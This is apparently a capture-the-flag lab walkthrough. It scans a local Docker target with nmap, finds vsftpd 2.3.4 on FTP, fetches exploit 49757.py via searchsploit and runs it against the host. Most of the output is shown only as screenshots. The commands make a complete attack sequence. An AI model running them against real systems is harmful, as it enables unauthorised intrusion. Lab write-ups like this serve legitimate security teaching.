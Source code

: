 ![image](https://github.com/user-attachments/assets/1c9ff203-f5a5-41b3-81d0-b5f581db390a)

## **we start the reconnaissance**
```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p21 172.17.0.2 -oN targeted
```
![Pasted image 20250121155440](https://github.com/user-attachments/assets/20416bf2-8035-49ff-9344-bb7cc7dc36d4)
![Pasted image 20250121155500](https://github.com/user-attachments/assets/56adb3bb-4de8-4519-9156-9b2a18fad9a5)
![Pasted image 20250121155609](https://github.com/user-attachments/assets/073b4ca0-445f-4557-8226-8c65c2a043f2)

```bash
searchsploit vsftpd 2.3.4
```
![Pasted image 20250121155804](https://github.com/user-attachments/assets/ef4d871a-f6e7-4cac-8e1e-959893513c38)

```bash
searchsploit -m unix/remote/49757.py
```
![Pasted image 20250121160005](https://github.com/user-attachments/assets/53e4cb06-34a5-41da-8f5f-76ac2d263be7)

## **this is the scrip we downloaded**
![Pasted image 20250121160202](https://github.com/user-attachments/assets/5ef7a43d-6898-4795-9e92-122596f8ca2b)

## **now we will use it by assigning it the ip to attack since it is already configured**
```bash
python3 49757.py 172.17.0.2
```
![Pasted image 20250121160341](https://github.com/user-attachments/assets/26fbcf9d-bf2c-4937-b43f-761733e13a10)








